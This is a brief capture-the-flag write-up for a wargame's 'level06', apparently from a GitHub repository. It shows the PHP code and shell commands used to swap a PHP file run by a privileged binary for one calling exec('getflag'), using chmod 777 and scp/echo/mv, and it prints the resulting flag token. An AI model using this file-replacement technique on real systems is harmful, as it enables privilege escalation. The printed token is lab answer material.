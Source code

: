 # level06 solve

To begin, when we get logged and trying to see if we got the file we can see we have two files

```
$ ls
> level06
> level06.php
```

So we decide to run the binary level06 and seeing he us the level06.php, after seeing that we decide to try to change the php file for doing a php request launching the getflag, and we found <a href="https://www.php.net/manual/fr/function.exec.php">that</a>.

result:

```
<?php
	echo exec('getflag');
?>
```

After modifying the php file with an exec command, we need to get the right to modify files in the repository

```
$ chmod 777 .
```

And after that, we just need to move the php file, because it's easier, we going to prefer using an echo and mv to the tmp folder between than use move with the scp command but in case...

scp

```
$ scp -P 4242 level06/Ressources/level06.php level06@ip:level06.php
```

bash

```
$ chmod 777 . ; echo "<?php echo exec('getflag'); ?>" > /tmp/level06.php ; mv /tmp/level06.php .
```

trying...

```
$ ./level06
> Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level05">previous level</a> - <a href="../../level07">next level</a>

